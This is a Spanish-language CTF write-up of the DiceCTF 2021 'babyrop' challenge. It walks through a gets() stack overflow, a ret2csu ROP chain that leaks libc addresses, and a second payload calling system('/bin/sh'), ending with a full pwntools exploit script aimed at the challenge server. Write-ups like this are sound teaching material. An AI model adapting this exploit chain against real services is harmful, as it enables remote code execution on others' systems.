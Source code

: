```yaml
---
layout: post
title: diceCTF babyrop
date: 2021-02-09 13:59
comments: true
categories: [Sin categoría]
---
```


Hola, ya que he decidido migrar mi página github pages,y para pastor este 2021, aprovecharé de hacer un write up de un binario que hice el fin de semana en [DICECTF 2021.](https://ctf.dicega.ng/) La parte de pwn estuvo bien buena. Solo alcance a hacer este rop y un heap a medias, pero al menos sirvió para mantener la práctica. 

El binario en cuestión podemos ver que es de 64bit, puedes descargarlo de [aca](https://github.com/dplastico/heap_stream/blob/main/babyrop)  no tiene RELRO ni PIE, lo cual hace las cosas bastante sencillas. Eso sí, debemos considerar que probablemente ASLR si está habilitado en el sistema con lo que de todas formas necesitaremos de un leak.

![Imgur](https://i.imgur.com/wtXtqAk.png)

Al revisar las funciones vemos que ocupa la función [gets](https://linux.die.net/man/3/gets) (ya sabemos que esto lleva a buffer overflow), pero solo ocupa adicional a esto la función de [write](https://man7.org/linux/man-pages/man2/write.2.html) para imprimir en pantalla.

![Imgur](https://i.imgur.com/7xWpbFq.png)

Considerando esto nuestro plan de explotación será el siguiente:

- Generar un Overflow y usar ROP para “lekear” una dirección de LIBC
- Identificar la version de LIBC
- Calcular los offsets necesarios
- Volver a generar un Buffer Overflow esta vez llamar a system y obtener una shell


Para obtener el leak el plan es generar un ROP y hacer un llamado a la función de write, podemos observar los parámetros que usa este syscall en el siguiente [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/). En resumen debemos ubicar en el registro RDI el file descriptor 1 (stdout), la dirección  que queramos “lekear” en RSI (en este caso usaremos la dirección GOT de gets y write) y en el registro RDX debemos darle un valor que usará para definir cuántos bytes se imprimirán en pantalla. Por lo mismo debemos considerar para esto al menos 8 bytes.

Podemos usar [ropper](https://github.com/sashs/Ropper) para mostrar los gadgets del binario y no tener que hacer una búsqueda manual, pero vemos que no hay forma de controlar el valor de rdx

![Imgur](https://i.imgur.com/DngI1xm.png)

Pero! Por eso mismo siempre les recomiendo revisar el binario de manera manual, por que en este caso podemos ocupar una técnica conocida como ret2csu. 

Puedes leer una descripción más detallada [acá](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), pero en resumen, usando esta técnica podemos encontrar ciertos “gadgets universales” que nos permiten controlar determinados registros haciendo uso de estas funciones que siempre se cargan en un ELF producto de la compilación. En este caso usaremos la funcion __lib_csu_init

![Imgur](https://i.imgur.com/lzcqURc.png)

Podemos observar que somos capaces usar un pop al registro R14 en la dirección 0x4011d0 y luego mover con “MOV rdx, r14” en 0x4011b0 el valor al registro RDX. Además el mismo gadget nos permitirá usar R15 y R13 para poder situar los valores de RSI y EDI (4 bytes de RDI).

Para que esto funcione debemos primero agregar los registros necesarios en nuestro “ropchain” de tal manera que pase el check en 0x4011c4 y hacer que el call, llame a write directamente por lo cual debemos asegurarnos que el valor de write este en  0x4011b9 call   QWORD PTR [ r15+rbx*8 ] 

```
payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof
```

Si enviamos esto podemos lekear las direcciones de gets y write

![Imgur](https://i.imgur.com/ddj0QHq.png)

![Imgur](https://i.imgur.com/ddj0QHq.png)

Con esto podemos buscar una versión de libc remota que coincida y de esa forma podemos calcular los offsets. Para esto ocupare [esta DB](https://libc.blukat.me/)

![Imgur](https://i.imgur.com/aUoas6M.png)

Vemos que coincide con la versión, la 2.31 , podríamos descargarla pero dado que esta pagina nos entrega los offset a system y al string de "/bin/sh" dentro de glibc, pues probaremos con esto en nuestro segundo payload, de la siguiente forma:

```
payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

```
Con esto ejecutamos y listo! Tenemos una shell.

![Imgur](https://i.imgur.com/trApFwN.png)

Espero que les haya gustado, este fue el único exploit que pude terminar en el CTF tuve mucho que hacer y los retos no estaban tan fáciles. Aun asi ya he hechos desafíos para Q4 que ocupan esta técnica, por lo cual me pareció valido mostrar como funciona. Espero les haya gustado, aca les dejo el exploit final:

```
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./babyrop')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./babyrop', gdbscript=gs)
    if args.REMOTE:
        return remote('dicec.tf', 31924)
    else:
        return process('./babyrop')
r = start()
r.timeout = 0.3
#========= exploit here ===================

poprdi = 0x4011d3
ret = 0x040116b

payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof

r.sendlineafter("name:", payload)

leak = u64(r.recvuntil("Your").split(b"Your")[0][1:7].ljust(8,b"\x00"))  #remote offset
libc.address = leak - 0x086af0
log.info(f"leak = {hex(leak)}")
log.info(f"libc remote = {hex(libc.address)}")

payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

r.sendlineafter("name:", payload)  #!!

#========= interactive ====================
r.interactive()
```